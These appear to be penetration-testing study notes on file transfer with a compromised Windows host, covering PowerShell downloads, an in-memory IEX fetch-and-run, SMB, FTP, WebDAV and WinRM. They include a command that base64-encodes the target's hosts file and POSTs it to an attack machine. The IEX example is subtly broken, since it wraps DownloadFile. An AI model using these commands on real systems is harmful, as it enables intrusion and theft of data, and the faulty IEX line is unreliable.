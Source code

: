 
## Download
```powershell-session
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

But to load powershell script directly into memory (and not on disk as above) we have tu use `Invoke-Expression`

```powershell-session
IEX (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

From powershell 3.0, a new command is available: `Invoke-WebRequest` (albeit slower)

```powershell
Invoke-WebRequest <url> -OutFile <output> (-UseBasicParsing)
```


### SMB server

We can create a local SMB server from our attack machine to download on the target. Using impacket:
	`impacket-smbserver share -smb2support <path-to-share>`

Then from the windows machine:
		`copy \\<ip>\share\<file>`
Optionnally, we can set a username + password, which may be required due to some Windows Firewall. We then have to mount the share on the windows machine with:
```cmd-session
net use n: \\<ip>\share /user:<username> <password>
```

### FTP

We can also use FTP server to transfer files.
On linux we setup the server with `pyftpdlib` (from pip)

And on the windows machine we use `Net.WebClient`
```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'C:\Users\Public\<output-file>')
```


On the low level side, we can also use directly FTP command in a file.
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


## Upload

From the target machine to our attack machine, we can do:
```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Which we can catch using netcat for example


### SMB

As companies usually don't allow outbound SMB traffic, we have to use HTTP (which is usually allowed), [webDAV](https://datatracker.ietf.org/doc/html/rfc4918) (HTTP entension)

On the attack machine, we need to install (pip) wsgidav and cheroot and run (CLI) wsgidav server. Now we can try to connect to the DavWWWRoot (special windows shell keyword) directory:

```cmd-session
dir \\<ip>\DavWWWRoot
```

### FTP

Exaclty similar do download (but use `UploadFile` method)


## Powershell session
Also called winrm

HTTP and HTTPs connections on port 5985 and 5986 respectively.
Need administrative access and be part of `Remote Managment` group

### From windows to windows

1. Create a session: `$Session = New-PSSession -ComputerName <target>`
2. Copy a file: `Copy-Item -Path <file> -ToSession $Session -Destination <target-filepath>`

Or copy from: `Copy-Item -Path <target> -Destination <local> -FromSession $Session`
